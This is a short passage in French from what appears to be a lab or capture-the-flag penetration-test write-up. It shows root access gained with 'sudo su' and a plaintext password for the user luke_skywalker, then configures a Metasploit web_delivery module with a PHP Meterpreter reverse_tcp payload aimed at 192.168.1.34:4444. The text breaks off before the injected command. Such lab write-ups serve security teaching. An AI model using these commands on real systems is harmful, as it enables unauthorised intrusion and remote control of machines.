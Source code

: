 ##### 4. Escalade de privilèges
L’utilisateur `luke_skywalker` appartient au groupe `sudo`.  
Une élévation de privilèges simple a permis d’obtenir l’accès root :

```bash
sudo su
# Password: like_my_father_beforeme
```
![alt text](image-30.png)
👉 Accès **root** obtenu.

#### 🚀 Étape 3.1 – Exploitation Apache/PHP via Metasploit (Web Delivery)

##### Mise en place du module
Le module utilisé est :

```
multi/script/web_delivery
```
![alt text](image-31.png)
Configuration d’un payload PHP reverse Meterpreter :

```bash
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.34
set LPORT 4444
run
```

##### Exécution du payload côté cible
La commande injectée via PHP :
